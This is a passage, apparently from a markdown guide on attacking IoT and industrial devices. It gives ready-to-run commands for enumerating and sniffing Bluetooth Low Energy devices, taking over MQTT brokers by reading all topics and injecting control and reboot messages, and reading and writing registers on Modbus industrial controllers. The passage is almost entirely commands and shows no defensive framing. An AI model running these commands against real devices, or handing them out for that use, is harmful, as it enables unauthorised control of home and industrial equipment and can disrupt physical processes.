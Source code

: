 For Z-Wave networks:
```bash
# Using Z-Wave-JS and specialized hardware
sudo apt-get install nodejs npm
npm install -g @zwave-js/server
zwave-js-server --port 7337
```

### BLE Device Exploitation

For Bluetooth Low Energy devices:

```bash
# Initial scanning
sudo hcitool lescan

# Connect and enumerate with gatttool
sudo gatttool -b DE:AD:BE:EF:12:34 -I
# (In interactive mode)
> connect
> primary
> characteristics

# Sniff BLE traffic with Wireshark
sudo btmon -w ble_capture.pcap
```

### MQTT Broker Takeover

For vulnerable MQTT brokers:

```bash
# Listen for all topics
mosquitto_sub -h 192.168.1.100 -t "#" -v

# Publish control messages
mosquitto_pub -h 192.168.1.100 -t "home/livingroom/light" -m "ON"

# Inject malicious commands (if device accepts commands via MQTT)
mosquitto_pub -h 192.168.1.100 -t "device/command" -m '{"action":"reboot"}'
```

### Modbus Industrial Control Exploitation

For industrial systems using Modbus:

```bash
# Install modbus-cli
pip install modbus-cli

# Read coils from a Modbus device
modbus read 192.168.1.100 coils 0 10

# Write to a register
modbus write 192.168.1.100 register 40001 123
```

